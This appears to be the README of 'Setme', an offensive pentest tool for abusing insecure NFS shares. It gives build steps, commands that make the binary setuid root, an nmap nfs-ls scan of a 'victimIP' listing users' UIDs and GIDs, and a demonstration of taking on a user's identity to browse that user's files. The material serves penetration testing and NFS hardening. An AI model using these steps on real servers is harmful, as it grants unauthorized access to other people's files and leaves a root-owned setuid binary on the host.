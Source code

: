 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from a Linux host.**  
This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories.
##

**Installation:**  
Download the file setMe.c from the repo.

Compile with:  
**gcc setme.c -o setMe**  
Then:  
sudo chown root:root ./setMe && sudo chmod gu+s ./setMe

*Considerations:*  
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you know that since your a pro.

##
**Usage:  
sudo nmap --script=nfs-ls** victimIP  
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex  
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff  
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs
  
Say we want to get into **mikes files**, we execute our binary with:  
**./setMe 1013 1013**  
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**  
pop@kali:/setme/$ **./setMe 1013 1013**  
$ **id**  
uid=1013 gid=1013 groups=1013  
  
  
We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".


